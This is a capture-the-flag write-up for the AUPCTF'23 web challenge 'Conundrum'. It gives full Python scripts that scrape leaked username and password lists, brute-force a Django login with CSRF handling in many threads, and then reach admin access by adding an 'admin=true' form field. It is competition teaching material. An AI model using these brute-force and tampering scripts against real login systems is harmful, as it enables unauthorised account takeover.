






# AUPCTF'23 - Web - Conundrum

We're given the following URL to work with:

```js
https://challs.aupctf.live/conundrum/
```

Upon visiting the URL, we're greeted with a login page:



We can try to login with some random credentials, but we're greeted with the following error:



Using a `CTF` mindset, we try and visit some obvious pages, first, we visit robots.txt and get the following:

```js
User-agent: *
Disallow: /usernames/
Disallow: /passwords/
```

We visit the `/usernames/` directory and get the following:



Similarly, for passwords:


Now, to extract the username and passwords, I wrote the following python script:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum"

r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)

r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)

```

Now, we need to send the data to the login page, so, using Chrome dev tools, we firstly identify the `POST` request being sent to the server:


Now, here, we can see that, we have a `csrfmiddlewaretoken`. So, for that, we need to send a `GET` request to the login page, and extract the `csrfmiddlewaretoken` from the response, and then, with each request, we need to send the `csrfmiddlewaretoken` as well. Also, we will need the `csrftoken` cookie set as well and a `referer` header set to the login page. So, for that, I wrote the following final script.

```py
import requests
import re
import threading
import itertools

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()
csrftoken = None

def _post(username, password):
	r = sess.post(
		url,
		headers = {
			'Referer' : url
		},
		data = {
			'csrfmiddlewaretoken' : csrftoken,
			'username' : username,
			'password' : password,
		}
	)

	if 'invalid' not in r.text.lower():
		print(f"=> {username}:{password}")
		print(f"Response: {r.text}")

print("[+] Fetching the usernames", end='')
r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(usernames)}")

print("[+] Fetching the passwords", end='')
r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(passwords)}")


print("[*] Combining both lists: ")
creds = list(itertools.product(usernames, passwords))

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

print("[*] Bruteforcing...")
threads = []
for username, password in creds:
	t = threading.Thread(target=_post, args=(username, password))
	threads.append(t)
	t.start()

for t in threads:
	t.join()
```

Now, when running the script, we get the following output in matters of seconds:

```py
[+] Fetching the usernames : 20
[+] Fetching the passwords : 20
[*] Combining both lists: 
[*] Extracting the CSRF Token : ZQBndXSbKeH0C3Wnl3pLlP3epgwasd1F
[*] Bruteforcing...
=> starlord69:1A8$5k7!eR
Response: <!DOCTYPE html>
<html>
<head>
    <title>Login Successful</title>

</head>
<style>
    body {
        background-color: #f2f2f2;
        font-family: Arial, sans-serif;
        margin: 0;
        padding: 0;
    }
    .h{
        text-align: center;
        font-size: 36px;
    }
    .message {
        text-align: center;
        margin-top: 50px;
        margin-left: 5em;
        margin-right: 5em;
        font-size: 24px;
        color: #333;
    }

    .logout {
        display: block;
        text-align: center;
        margin-top: 20px;
        color: #a00606;
        text-decoration: none;
        font-size: 24px;
    }

    .logout:hover {
        color: #540a0a;
    }
</style>

<body>
    <h3 class="h">Login successful!</h3>
    <p class="message">You've entered the 'Userland'! The flag, however, is chilling in the 'Admin Paradise'.</p>
    <a href="/phash/" class="logout">Logout</a>

    </form>
</body>
</html>
```

Now, with the following credentials, `starlord69:1A8$5k7!eR`, we are able to login successfully:



Now, the message is pretty vague. I tried several different stuff. Finally, with a hint from the admins and a fellow hacker, I tried the two things and one of them worked

1. Adding a seperate `admin: 1` header in the http request
2. Adding a `admin=true` parameter in the POST request data (SPOILER, it worked.)




So, since I love to automate everything, the final script to extract the flag became:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()

username = 'starlord69'
password = '1A8$5k7!eR'

print(f"[*] Using creds: {username}:{password}")

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password,
		'admin' : 'true',
	}
)

flag = re.findall('class="flag">(.*?)</b>', r.text)[0]
print(f"[>] Flag: {flag}")
```

The final output and flag is:

```py
[*] Using creds: starlord69:1A8$5k7!eR
[*] Extracting the CSRF Token : 136nR4wCHKPlH5rj7O9VIyFRwSgn8X1j
[>] Flag: aupCTF{V1ct0ri0usChall3ng3r!}
```